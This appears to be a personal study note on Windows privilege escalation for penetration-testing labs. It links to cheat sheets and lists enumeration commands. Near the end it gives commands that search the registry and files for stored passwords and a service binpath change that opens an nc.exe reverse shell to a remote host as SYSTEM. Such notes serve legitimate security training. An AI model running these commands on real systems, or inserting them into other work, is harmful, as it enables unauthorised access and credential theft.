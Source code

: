 
# Guide

1. Repeat below under every single privilege increase
2. Run [[#Default Commands]]
3. Check the users on the victim, `net users`


# Table of Contents

1. If a binary is found within a users directory it is likely exploitable.
2. General guide which lists a vast array of exploits and methods of exploitation, see [Privilege Escalation - Windows](https://mysecurityjournal.blogspot.com/p/client-side-attacks.html)
3. See [[Watson]] to find operating system vulnerabilities  
4. Flags may be within network drives, try mapping, see [[Network Drives]]:
5. If any [[Valuable Files#SAM and System Files]] are found, see [[SamDump]]
6. If you have a hash which you cannot crack, see [[Passing the Hash]]

#### Walkthroughs

1. [OSCP\_Cheat\_sheet/Windows Privilege Escalation Techniques.md at main · xXxhagenxXx/OSCP\_Cheat\_sheet · GitHub](https://github.com/xXxhagenxXx/OSCP_Cheat_sheet/blob/main/Windows%20Privilege%20Escalation%20Techniques.md)
# Default Commands 

1. [[windows-privesc-check]]
2. [[WinPeas]]
3. [[Windows Exploit Suggester - Next Generation (WES-NG)]]



# Extra Enumeration Commands

```
// What system are we connected to?
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

// Get tokens and privileges 
whoami /priv

// Get the hostname and username (if available)
hostname
echo %username%

// Get users
net users
net user [username]

// Networking stuff
ipconfig /all

// Printer?
route print

// ARP-arific
arp -A

// Active network connections
netstat -ano

// Firewall fun (Win XP SP2+ only)
netsh firewall show state
netsh firewall show config

// Scheduled tasks
schtasks /query /fo LIST /v

// Running processes to started services
tasklist /SVC
net start

// Driver madness
DRIVERQUERY

// WMIC fun (Win 7/8 -- XP requires admin)
wmic /?
# Use wmic_info script!

// [[Saved Credentials]] 
cmdkey /list

// WMIC: check patch level
wmic qfe get Caption,Description,HotFixID,InstalledOn

// Search pathces for given patch
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.."

// AlwaysInstallElevated fun
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

// AutoRun (See [[AutoRun SysInternals]])
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

// [[Registry Passwords]] 
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

// Other commands to run to hopefully get what we need
dir /s *pass* == *cred* == *vnc* == *.config*
findstr /si password *.xml *.ini *.txt
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

// Service permissions
sc query
sc qc [service_name]
sc qc dllsvc (See [[DLL Hijacking]] )
sc qc regsvc (If NT Auth, see [[RegSVC Writable]])
sc qc filepermsvc (If SYSTEM SERVICE_START_NAME, see [[Insecure Service Executables]])

// Accesschk stuff
accesschk.exe /accepteula (always do this first!!!!!)
accesschk.exe /accepteula -uwcqv user daclsvc
accesschk.exe -ucqv [service_name] (requires sysinternals accesschk!)
accesschk.exe -uwcqv "Authenticated Users" * (won't yield anything on Win 8)
accesschk.exe -ucqv [service_name]
accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"

// Find all weak folder permissions per drive.
accesschk.exe -uwdqs Users c:\
accesschk.exe -uwdqs "Authenticated Users" c:\

// Find all weak file permissions per drive.
accesschk.exe -uwqs Users c:\*.*
accesschk.exe -uwqs "Authenticated Users" c:\*.*

// Binary planting
sc config [service_name] binpath= "C:\nc.exe -nv [RHOST] [RPORT] -e C:\WINDOWS\System32\cmd.exe"
sc config [service_name] obj= ".\LocalSystem" password= ""
sc qc [service_name] (to verify!)
net start [service_name]
```